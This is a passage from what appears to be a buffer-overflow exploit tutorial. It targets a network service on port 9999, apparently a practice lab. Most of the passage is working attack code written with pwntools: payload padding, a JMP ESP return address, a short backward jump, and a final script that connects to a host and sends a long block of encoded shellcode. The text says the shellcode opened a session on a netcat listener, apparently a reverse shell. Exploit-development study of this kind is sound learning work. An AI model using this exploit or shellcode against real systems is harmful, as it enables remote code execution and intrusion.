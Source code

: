 ```
payload += "B"*(48 - 32 - 4) # 48 (buffer for egghunter - egghunter length), -4 for JMP ESP alignment  
payload += p32(0x625011af) # JMP ESP  
payload += "\xeb\xce\x90\x90" # JMP -50

r.sendline(payload)  
r.close()
```

![](https://cdn-images-1.medium.com/max/800/1*O9HU3lzjCNKFGdQcaYAE3g.png){: .align-center}

Again, we landed successfully on our desired location.

Continuing the program after the debug instruction.

![](https://cdn-images-1.medium.com/max/800/1*sOPviTqnJ_GJAEG3JjSqpQ.png){: .align-center}

The program continued successfully.

![](https://cdn-images-1.medium.com/max/800/1*eM5m-KWpLGmDEKte5wrdug.png){: .align-center}

Going back to the netcat listener, it seems that the shellcode was executed successfully.

Let’s remove the debugger on our final script.

```
from pwn import *

host = '192.168.136.241'  
port = 9999

r = remote(host, port)

shellcode =  b""  
shellcode += b"\xba\x36\xdb\xa5\x76\xd9\xc4\xd9\x74\x24\xf4"  
shellcode += b"\x58\x2b\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e"  
shellcode += b"\x03\x66\xd5\x47\x83\x7a\x01\x05\x6c\x82\xd2"  
shellcode += b"\x6a\xe4\x67\xe3\xaa\x92\xec\x54\x1b\xd0\xa0"  
shellcode += b"\x58\xd0\xb4\x50\xea\x94\x10\x57\x5b\x12\x47"  
shellcode += b"\x56\x5c\x0f\xbb\xf9\xde\x52\xe8\xd9\xdf\x9c"  
shellcode += b"\xfd\x18\x27\xc0\x0c\x48\xf0\x8e\xa3\x7c\x75"  
shellcode += b"\xda\x7f\xf7\xc5\xca\x07\xe4\x9e\xed\x26\xbb"  
shellcode += b"\x95\xb7\xe8\x3a\x79\xcc\xa0\x24\x9e\xe9\x7b"  
shellcode += b"\xdf\x54\x85\x7d\x09\xa5\x66\xd1\x74\x09\x95"  
shellcode += b"\x2b\xb1\xae\x46\x5e\xcb\xcc\xfb\x59\x08\xae"  
shellcode += b"\x27\xef\x8a\x08\xa3\x57\x76\xa8\x60\x01\xfd"  
shellcode += b"\xa6\xcd\x45\x59\xab\xd0\x8a\xd2\xd7\x59\x2d"  
shellcode += b"\x34\x5e\x19\x0a\x90\x3a\xf9\x33\x81\xe6\xac"  
shellcode += b"\x4c\xd1\x48\x10\xe9\x9a\x65\x45\x80\xc1\xe1"  
shellcode += b"\xaa\xa9\xf9\xf1\xa4\xba\x8a\xc3\x6b\x11\x04"  
shellcode += b"\x68\xe3\xbf\xd3\x8f\xde\x78\x4b\x6e\xe1\x78"  
shellcode += b"\x42\xb5\xb5\x28\xfc\x1c\xb6\xa2\xfc\xa1\x63"  
shellcode += b"\x64\xac\x0d\xdc\xc5\x1c\xee\x8c\xad\x76\xe1"  
shellcode += b"\xf3\xce\x79\x2b\x9c\x65\x80\xbc\x63\xd1\x02"  
shellcode += b"\xca\x0c\x20\x12\x22\x91\xad\xf4\x2e\x39\xf8"  
shellcode += b"\xaf\xc6\xa0\xa1\x3b\x76\x2c\x7c\x46\xb8\xa6"  
shellcode += b"\x73\xb7\x77\x4f\xf9\xab\xe0\xbf\xb4\x91\xa7"  
shellcode += b"\xc0\x62\xbd\x24\x52\xe9\x3d\x22\x4f\xa6\x6a"  
shellcode += b"\x63\xa1\xbf\xfe\x99\x98\x69\x1c\x60\x7c\x51"  
shellcode += b"\xa4\xbf\xbd\x5c\x25\x4d\xf9\x7a\x35\x8b\x02"  
shellcode += b"\xc7\x61\x43\x55\x91\xdf\x25\x0f\x53\x89\xff"  
shellcode += b"\xfc\x3d\x5d\x79\xcf\xfd\x1b\x86\x1a\x88\xc3"  
shellcode += b"\x37\xf3\xcd\xfc\xf8\x93\xd9\x85\xe4\x03\x25"  
shellcode += b"\x5c\xad\x34\x6c\xfc\x84\xdc\x29\x95\x94\x80"  
shellcode += b"\xc9\x40\xda\xbc\x49\x60\xa3\x3a\x51\x01\xa6"  
```
